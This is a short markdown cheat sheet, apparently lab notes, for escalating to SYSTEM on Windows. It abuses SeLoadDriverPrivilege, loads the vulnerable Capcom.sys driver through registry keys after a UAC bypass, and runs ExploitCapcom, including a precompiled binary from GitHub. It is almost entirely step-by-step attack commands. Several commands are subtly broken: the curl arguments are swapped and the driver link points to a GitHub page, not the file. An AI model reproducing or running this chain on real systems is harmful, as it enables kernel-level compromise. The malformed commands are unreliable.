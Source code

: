 **Enable EnableSeLoadDriverPrivilege**

`if no there is no SeLoadDriverPrivileg we need to bypass UAC  `
 - Bypass UAC :
 ```ruby
https://github.com/hfiref0x/UACME
```

 - Download  EnableSeLoadDriverPrivilege :
```cmd
curl -o https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp EnableSeLoadDriverPrivilege.cpp
```

 - Compile with cl.exe :
 ```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

 - Enable EnableSeLoadDriverPrivilege :
```cmd
EnableSeLoadDriverPrivilege.exe
```

 **Load Capcom.sys**
 
 - Download  Capcom.sys:
```powershell
curl Capcom.sys -o https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```

  - Add Reference to Driver:
```powershell
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

  - Download DriverView:
```cmd
http://www.nirsoft.net/utils/driverview.html
```

  - Verify Capcom Driver is Listed:
```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

 **Exploit**
 
  - Download Exploit:
```sh
https://github.com/musheebat/Compiled-capcom-exploit/blob/main/ExploitCapcom.exe
https://github.com/tandasat/ExploitCapcom
```

   - Use ExploitCapcom : 
```powershell
PS C:\htb> .\ExploitCapcom.exe
```
